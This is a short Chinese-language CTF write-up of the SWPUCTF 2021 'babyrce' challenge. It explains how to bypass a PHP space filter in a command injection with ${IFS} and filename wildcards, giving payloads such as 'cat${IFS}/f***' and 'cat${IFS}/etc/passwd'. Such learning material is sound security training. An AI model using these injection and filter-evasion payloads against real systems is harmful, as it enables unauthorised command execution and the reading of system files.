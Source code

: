 # [SWPUCTF 2021 新生赛]babyrce

![image-20250731183251253](E:\note_ctf\assets\image-20250731183251253.png)

直接Hackbar抓包即可

![image-20250731183335394](E:\note_ctf\assets\image-20250731183335394.png)

![image-20250731183412851](E:\note_ctf\assets\image-20250731183412851.png)

## preg_match

- ```
  `preg_match("/ /", $ip)`
  
  `/ /` 是一个正则表达式，表示匹配 **一个空格字符**。
  `preg_match()` 如果匹配成功，返回 `1`；否则返回 `0`。
  ```

  

![image-20250731183902646](E:\note_ctf\assets\image-20250731183902646.png)

```
#过滤了空格，采用${IFS}代替空格
#输入flag没有回显，部分匹配+通配符/模糊得到flag
/?url=cat${IFS}/f***
```

## 空格被过滤：使用 `${IFS}` 替代空格

- **`IFS`**（Internal Field Separator）是 Bash 的内部变量，默认值是空格、Tab 和换行。
- 在命令中，如果写 `${IFS}`，Shell 会把它解析为一个空格。

例如：

```
cat${IFS}/etc/passwd
```

等效于：

```
cat /etc/passwd
```

## 部分匹配+通配符/模糊

Linux Shell 支持文件名通配符 `*`。
 例如 `/f***` 可以匹配 `/flag` 文件（因为 `*` 匹配任意字符）。

```
cat /f***
```

会被系统自动展开为：

```
cat /flag
```

![image-20250731184022441](E:\note_ctf\assets\image-20250731184022441.png)

# [第五空间 2021]WebFTP
```